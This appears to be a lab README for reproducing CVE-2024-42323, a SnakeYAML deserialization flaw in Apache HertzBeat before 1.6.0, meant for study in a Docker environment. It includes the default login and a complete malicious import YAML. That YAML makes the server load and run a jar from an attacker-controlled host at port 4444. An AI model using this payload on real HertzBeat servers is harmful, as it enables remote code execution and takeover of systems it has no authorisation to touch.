



# Apache-HertzBeat SnakeYaml Deserialization Vulnerability (CVE-2024-42323)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HertzBeat is an open-source real-time monitoring tool. In affected versions, due to the use of a vulnerable version of SnakeYAML for parsing user-controlled YAML files, authenticated attackers can configure malicious YAML scripts when importing new monitoring types via the /api/monitors/import and /api/alert/defines/import APIs, potentially leading to remote code execution.

Affected Versions:

* Apache HertzBeat < 1.6.0

References:

* https://forum.butian.net/article/612
* https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
* https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md

## Vulnerable environment

To run the vulnerable environment:

```
docker-compose up -d
```

This will start a `HertzBeat 1.4.4 service`.

Once the service is up and running, access the login page at  `http://your-ip:1157/dashboard`.

The default credentials are `admin/hertzbeat`.

## Vulnerability reproduce

Select any monitor and click to import the monitor.



Then, Modify the value field in the uploaded YAML file:

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null
```

The `/api/monitors/import` endpoint triggers the SnakeYaml deserialization vulnerability.

* Compile the project from `https://github.com/fei9747/yaml-payload/` under jdk11 to generate the payload.
* Example: The generated payload executes the local command `touch /tmp/success`.

Successfully executing the code:

The `success` file has been successfully created inside the container.


